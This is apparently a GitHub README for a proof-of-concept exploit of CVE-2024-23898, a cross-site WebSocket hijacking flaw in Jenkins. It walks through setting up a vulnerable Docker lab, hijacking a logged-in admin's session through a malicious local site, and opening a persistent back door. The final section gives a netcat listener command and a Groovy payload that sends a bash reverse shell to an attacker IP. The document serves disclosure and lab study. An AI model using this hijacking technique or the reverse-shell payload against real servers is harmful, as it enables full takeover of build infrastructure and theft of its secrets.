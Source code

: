 # Jenkins CLI Websocket Hijacking
 A proof of concept for CVE-2024-23898, a cross-site WebSocket hijacking vulnerability affecting Jenkins versions 2.217-2.441.  
 This exploits targets the Jenkins CLI that can be used to remotely access and issue commands to a Jenkins control server.  Through this exploit a remote attacker can gain access to and establish a persistent back-door to a Jenkins control server if an administrator is tricked into visiting a malicious site while logged-in to the target Jenkins control server.


# Setting Up Jenkins
- Run "docker-compose build && docker-compose up -d"
- Navigate to http://localhost:8080, you will be prompted for an admin password
- Open a shell in the jenkins docker container (NOT THE POSTGRES ONE)
    - "docker exec -it <container_id> bash"
    - cd to directory listeed on the Jenkins page, acquire the password
- Set up a basic admin account (remember the password) and install default plugins 
-Configure anonymous users with basic permissions by going to Manage Jenkins > Security 
	- Set authorization type to "Matrix-based"
	- Allow anonymous users to read "Overall" and "Job"

# Conducting Websocket Hijacking
- Open Firefox, go to Settings > Security & Privacy
    - Set Browser Privacy to custom, toggle Cookies "off" (this makes Firefox allow all cookies through)
- Go to Jenkins, login as the admin, making sure to click "Keep me signed in"
- Lauch evilApp.py, visiting on http://localhost:5000
    - Go to Network and hit refresh
    - Click on the packet with file "ws" and go to Response, you should see that is says "Authenticated as: admin""
        -  You can also check "Cookies" to see the remember-me cookie

# Executing a reverse shell
- In your machine's terminal, start a netcat listener with `nc -l <port_num>` (replace <port_num> with any unused port number)
- You must obtain your computer's IP address as seen by Docker. On Mac you can find this with the command `ipconfig getifaddr en0`
- Assuming your Jenkins server is running, go to `[http://localhost:8080/script](http://localhost:8080/script)`. Log in as the admin account if you have not already.
- Paste and execute this payload into the Groovy script console: `['bash', '-c', 'bash -i >& /dev/tcp/<attacker_ip>/<port_num> 0>&1'].execute()`
- Go back to the terminal with the netcat listener. You should be in the Jenkins server's file system and able to do anything the admin user can.

